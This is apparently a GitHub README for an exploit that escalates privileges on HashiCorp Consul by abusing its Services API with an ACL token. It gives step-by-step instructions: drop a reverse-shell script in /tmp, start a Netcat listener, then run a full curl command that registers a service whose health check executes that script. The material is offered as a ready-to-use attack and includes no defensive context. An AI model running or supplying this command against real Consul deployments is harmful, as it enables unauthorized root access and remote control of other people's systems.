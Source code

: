 # Hashicorp-Consul-Privilege-Escalation-via-Services-API_ACL-Token
Local or remote privilege escalation for Hashicorp Consul via Services API & ACL Token

Shell command that can be run locally to perform privilege escalation on a vulnerable Linux target if not accessible remotely for one reason or another (Firewall Rule, Only running locally). It could also be used remotely, but there's better exploits out there such as metasploit to do that... but it can be done.

# How-To: 

1.There is a shell.sh file included that contains a reverse bash shell that can be modified, or, replace the command all together with your own. Place or create your own shell.sh in (recomended) /tmp directory.

2. Set up a listener (Netcat) if using a reverse shell.

3. Run the following command:

curl --header "X-Consul-Token: #<REPLACE_WITH_YOUR_ACL_TOKEN_HERE>#" --request PUT -d '{"ID": "LPE", "Name": "LPE", "Address": "127.0.0.1", "Port": 80, "check": {"Args": ["/bin/bash", "/tmp/bash_shell.sh"], "interval": "30s", "timeout": "100000s"}}' http://127.0.0.1:8500/v1/agent/service/register

Prerequisites: Hashicorp Consul running, Knowledge of or way to obtain a valid ACL Token.

 
